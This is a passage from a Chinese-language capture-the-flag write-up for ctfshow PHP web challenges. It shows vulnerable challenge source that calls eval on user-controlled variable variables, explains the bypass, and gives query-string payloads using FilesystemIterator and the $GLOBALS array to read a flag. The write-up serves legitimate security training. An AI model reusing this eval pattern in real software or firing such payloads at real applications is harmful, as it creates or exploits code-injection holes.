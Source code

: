 ```php
```

考察点：FilesystemIterator类的使用(作用就是获取当前目录文件)

payload:

```php
?v1=FilesystemIterator&v2=getcwd
```

http://phpff.com/filesystemiterator

## web111~全局变量GLOBALS引用

```php
<?php

highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}


if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
    
}

?> 
```

php变量地址引用。可以利用全局变量来进行赋值给ctfshow这个变量

payload:

```php
?v1=ctfshow&v2=GLOBALS
```
